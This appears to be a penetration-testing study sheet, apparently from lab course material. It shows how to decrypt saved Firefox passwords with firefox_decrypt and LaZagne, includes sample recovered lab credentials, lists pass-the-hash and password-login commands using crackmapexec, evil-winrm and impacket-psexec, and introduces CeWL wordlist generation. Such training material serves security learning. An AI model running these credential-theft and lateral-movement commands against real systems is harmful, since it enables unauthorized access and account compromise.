 
The tool [Firefox Decrypt](https://github.com/unode/firefox\_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.

**Decrypting Firefox Credentials**

```shell
lojique@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

Alternatively, `LaZagne` can also return results if the user has used the supported browser.

**Browsers - LaZagne**

```shell
python3 laZagne.py browsers
```

## Pass-The-Hash

#### w/ Local & Domain Accounts

```powershell
crackmapexec smb 192.168.183.0/24 -u "Frank Castle" -H <hash> --local-auth
crackmapexec smb 192.168.183.137 -u "Frank Castle" -p Password1
crackmapexec smb 192.168.183.0/24 -u fcastle -d MARVEL.local -p Password1
evil-winrm -i '10.10.11.129' -u 'Sam.Davies' -p 'Password123'
impacket-psexec domain.local/administrator:MyPasswowrd123@10.10.10.100
impacket-psexec domain.local/administrator@10.10.10.100 -H <hash>
```

#### w/ Machine$ Accounts

* https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts
* https://pentestlab.blog/2022/02/01/machine-accounts/

## Generating a Wordlist

We can use a tool called [CeWL](https://github.com/digininja/CeWL) to scan potential words from the company's website and save them in a separate list. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password. We specify some parameters, like the depth to spider (`-d`), the minimum length of the word (`-m`), the storage of the found words in lowercase (`--lowercase`), as well as the file where we want to store the results (`-w`).
